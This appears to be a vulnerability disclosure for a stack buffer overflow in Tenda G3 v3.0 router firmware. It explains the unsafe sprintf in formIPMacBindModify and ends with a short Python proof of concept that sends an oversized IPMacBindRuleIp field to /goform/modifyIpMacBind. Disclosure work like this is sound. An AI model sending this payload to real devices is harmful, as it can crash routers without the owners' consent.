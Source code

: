 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3369.html

## Affected version

G3V3.0 V15.11.0.20

## Vulnerability details

The Tenda G3V3.0 V15.11.0.20 firmware has a stack overflow vulnerability in the `formIPMacBindModify` function. The `ruleIndex, ip, mac, remark` variable receives the `IPMacBindRuleId, IPMacBindRuleIp, IPMacBindRuleMac, IPMacBindRuleRemark` parameter from a POST request. However, since the user can control the input of `IPMacBindRuleId, IPMacBindRuleIp, IPMacBindRuleMac, IPMacBindRuleRemark `, the statement

```c
sprintf(
    (char *)tmp,
    "%s;1;%s;%s;name%d;%s",
    (const char *)ruleId,
    (const char *)ip,
    (const char *)mac,
    v6,
    (const char *)remark);
```

can cause a buffer overflow. The user-provided `IPMacBindRuleId, IPMacBindRuleIp, IPMacBindRuleMac, IPMacBindRuleRemark` can exceed the capacity of the `tmp` array, triggering this security vulnerability.

![image-20240417104536386](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417104536386.png)

![image-20240417104524808](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417104524808.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/modifyIpMacBind"
payload = b"a"*2000

data = {
    	'IPMacBindRuleIp':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

